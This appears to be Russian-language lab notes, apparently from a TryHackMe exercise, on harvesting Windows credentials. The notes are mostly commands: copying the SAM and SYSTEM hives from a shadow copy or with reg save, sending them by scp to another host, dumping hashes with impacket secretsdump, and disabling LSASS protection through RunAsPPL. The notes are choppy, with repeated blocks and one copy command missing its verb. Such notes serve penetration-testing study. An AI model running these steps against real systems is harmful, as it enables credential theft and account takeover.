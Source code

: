 База данных SAM зашифрована с помощью алгоритмов шифрования [RC4](https://en.wikipedia.org/wiki/RC4) или [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) . Для того, чтобы расшифровать ее, нам нужен ключ дешифрования, который также хранится в файловой системе в `c:\Windows\System32\Config\system`.

```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
___
### Реестр ульев
 Реестр Windows также хранит копию некоторого содержимого базы данных SAM для использования службами Windows. К счастью, мы можем сохранить значение реестра Windows с помощью инструмента reg.exe. Как упоминалось ранее, нам нужны два файла для расшифровки содержимого базы данных SAM. Убедитесь, что вы запускаете командную строку с правами администратора.

```cmd
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

```http
https://github.com/roo7break/impacket/blob/master/examples/secretsdump.py
```

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

___
```cmd
net user thm
```

```bash
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

```ps
scp C:\users\Administrator\Desktop\sam-reg vadim@10.9.0.252:/tmp/
scp C:\users\Administrator\Desktop\system-reg vadim@10.9.0.252:/tmp/
```

```!!!
wget https://raw.githubusercontent.com/roo7break/impacket/refs/heads/master/examples/secretsdump.py && chmod +x secretsdump.py 
python -m venv venv
 pip2 install impacket 
source venv/bin/activate
python2 secretsdump.py -system system-reg -sam sam-reg LOCAL
```

```bash
impacket-secretsdump -system /tmp/system-reg -sam /tmp/sam-reg LOCAL
```
### Служба подсистемы местного органа безопасности (LSASS)
Local Security Authority Server Service (LSASS) — это процесс Windows, который обрабатывает политику безопасности операционной системы и применяет ее в системе. Он проверяет учетные записи, вошедшие в систему, и обеспечивает пароли, хэши и билеты Kerberos .
#### GUI
```regedit.exe
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -> RunAsPPL = 0
```
